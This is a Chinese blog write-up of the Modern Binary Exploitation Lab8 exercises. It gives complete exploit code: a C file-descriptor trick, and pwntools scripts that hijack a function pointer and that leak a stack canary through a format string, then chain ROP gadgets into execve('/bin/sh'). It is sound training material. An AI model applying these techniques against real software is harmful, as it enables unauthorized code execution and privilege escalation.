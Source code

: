 ```yaml
---
layout: post
title: "MBE Lab8 Misc and Canaries Write Up"
---
```


# 0x00 背景

此篇write up对应于MBE的Lab8，相关的内容是整数溢出，文件描述符利用和Stack Cookies的绕过，虽然是很杂的知识没有之前的那么有挑战性，但了解与掌握还是有必要的。 

<!-- more -->

# 0x01 Lab8

## Lab8C

此题保护全开,看来看去感觉没什么问题,源码的意思应该是获得.pass文件的内容就可以了。有想过借助lseek的返回结构造成整数溢出绕过判断,再借助%s泄露出.pass，但其返回值也是有符号的。最后注意到，程序的保护只是针对于文件名的，如果传递的是.pass的文件描述符就还是会输出其内容。那么我写一个小程序打开.pass得到fd再传递给lab8C也是可以的（子进程继承父进程fd）：

```c
#include <stdio.h>
#include <fcntl.h>
#include <stdlib.h>
#include <unistd.h>

int main()
{
    int fd;
    char lab8C[32];

    fd = open(".pass", O_RDONLY);
    printf(".pass fd is %d\n", fd);
    sprintf(lab8C, "./lab8C -fd=%d -fd=%d", fd, fd);
    system(lab8C);
    return 0;
}
```

是不是有些耍赖，但还有一点就是在打开.pass文件后其fd就是3，所以我们直接传递参数也是可解的（fd是递增的）：

![][1]

## Lab8B

此题只要是劫持eip至thisIsASecret函数就可以获取shell了，很明显是要覆盖vector结构体中的函数指针，虽然是PIE编译但有printVector的操作也算是自动泄露地址了。不难发现漏洞位于fave函数：

```c
	else
	{
		faves[i] = malloc(sizeof(struct vector));
		memcpy(faves[i], (int*)(&v3)+i, sizeof(struct vector));
		printf("I see you added that vector to your favorites, \
but was it really your favorite?\n");
	}
```

拷贝加偏移简直不要太明显，所以通过构造特定的vector，fave函数先将其拷贝至全局结构体指针数组的结构体中，再由loadFave拷贝至v1中覆盖函数指针就好了。另外还需要注意三个小问题：

1. vector结构体中保存着不同的数据类型，所以存在内存对齐的问题，这一点通过反汇编也可以表现出来：

![][2]

2. 程序中getchar和scanf保存在内存中的数值是有所区别的，不禁想起了初学C语言的时候。

![][3]

3. 由于缓冲区的问题，在使用pwntools的时候输入输出不容易对上，而且在直接调用`gdb.attach`时也是无法调试，想了一个小办法，在需要调试的地方直接`time.sleep(1000)`，再外部开gdb attach就可以了。

这个题目虽然有些无聊，但还是要有利用代码的：

```python
from pwn import *
import time

context.log_level = 'debug'
p = process('./lab8B')
p.sendline('1')
p.sendline('1')
for _ in xrange(9):
    p.sendline('1')

p.sendline('3')
p.sendline('1')
tmp = p.recvregex('printFunc: .*?\n')
printVector_addr = int(tmp.strip().split(' ')[-1], 16)
printVector_offset = 0xe19
thisIsASecret_offset = 0xdd7
thisIsASecret_addr = printVector_addr-(printVector_offset-thisIsASecret_offset)
thisIsASecret_hex = p32(thisIsASecret_addr)
print repr(thisIsASecret_hex.encode('hex'))

p.sendline('1')
p.sendline('2')
p.sendline('1')
p.sendline('1')
p.sendline('1')
p.sendline(str(thisIsASecret_addr-1))
for _ in xrange(5):
    p.sendline('1')

p.sendline('2')
#time.sleep(10000)
p.sendline('4')
p.sendline('4')
p.sendline('4')
p.sendline('4')

p.sendline('6')
p.sendline('3')
p.sendline('1')
#time.sleep(10000)
p.sendline('3')
p.sendline('1')
p.interactive()
```

效果如下：

![][4]

## Lab8A

此题终于是个对栈保护canary的绕过，由于是静态编译所以还是要构造ROP链。在selectABook函数中故意printf出接收的buf_secure，借助此格式化漏洞即可泄露出栈上的random canary。另外虽然在findSomeWords函数中有自定义的cookie保护，但其要求是将`buf[-8:-4]`设为0xdeadbeef就可以了，最后read函数直接造成栈溢出即可利用：

```python
from pwn import *

context.log_level = 'debug'
p = process('./lab8A')
p.sendlineafter('Name: ', '%130$08x')
xor_select_val = int('0x'+p.recvline().strip(), 16)
ret_select_val = 0x080491ba
canary = xor_select_val ^ ret_select_val
p.sendlineafter('book.', '%1$08x/bin//sh')
buf_secure_addr = int('0x'+p.recvline().strip()[-16:-8], 16)
#gdb.attach(p)
p.sendlineafter('book.', 'A')

rop = 0x08054980 # xor eax, eax; ret
xor_find_val = xor_select_val  # rop ^ canary

padding = 'A'*16+p32(0xdeadbeef)+'A'*4+p32(xor_find_val)+'A'*4
rop = p32(rop)
rop += p32(0x0806f0a0) # pop edx; pop ecx; pop ebx; ret
rop += p32(0)
rop += p32(0)
rop += p32(buf_secure_addr+6)
for _ in xrange(11):
    rop += p32(0x080e927f)
rop += p32(0x0806f750)

rop += p32(0x08054980)
rop += p32(0x080e927f)
rop += p32(0x0806f750)
p.sendlineafter('==  ', padding+rop)
p.interactive()
```

其中有两点需要注意：

1. ebx保存字符串/bin/sh指针的问题，这里我借助了printf的字符串格式化漏洞直接泄露出在使用scanf函数过程中栈上保存的buf_secure地址。
2. ROP中直接调用的是execve系统调用，当传入的参数为`/bin/sh;%1$08x`时系统调用总会出错，这里误以为是和shell一样加个分号就没事了，事实上在调用时应该直接传入/bin/sh才不会出错。

效果如下：

![][5]

# 0x02 总结

绕过Canary的方法当然不止信息泄露，其他方法可见[Canary](http://tacxingxing.com/2017/07/13/canary/)，问题不断，菜鸡的代码书写还是需要加强呀。

[1]: https://wx1.sinaimg.cn/large/ee2fecafgy1fpthfrtgpgj20q1030gly.jpg
[2]: https://wx2.sinaimg.cn/large/ee2fecafgy1fpthfsb1qej20jc07j3zz.jpg
[3]: https://wx3.sinaimg.cn/large/ee2fecafgy1fpthfsq8wej20oo044gm4.jpg
[4]: https://wx1.sinaimg.cn/large/ee2fecafgy1fpthft7q7uj20pz071aav.jpg
[5]: https://wx1.sinaimg.cn/large/ee2fecafgy1fpthftrhs8j20q20a1abi.jpg
